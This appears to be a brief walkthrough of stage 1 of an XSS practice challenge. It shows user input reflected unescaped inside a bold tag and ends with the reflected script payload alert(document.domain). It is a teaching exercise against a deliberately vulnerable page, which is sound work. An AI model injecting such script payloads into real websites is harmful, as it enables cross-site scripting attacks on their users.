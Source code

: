 # **XSS Challenges Stage 1**

![](https://i.imgur.com/3D2gKWn.png)

First, try something to get the feedback.

![](https://i.imgur.com/eDj2OwF.png)

Then you will see the feedback in source code.

```
<b>"123"</b>
```

Let's try to make new html tag to see what happen.

![](https://i.imgur.com/R8VN4lA.png)

Yup, it become a part of html code.

```
<b>"<a"</b>
```

Let's insert a `<scipt>` tag with question request.

![](https://i.imgur.com/L1qdoez.png)

```
<script>alert(document.domain);</script>
```

![](https://i.imgur.com/vi04POk.png)

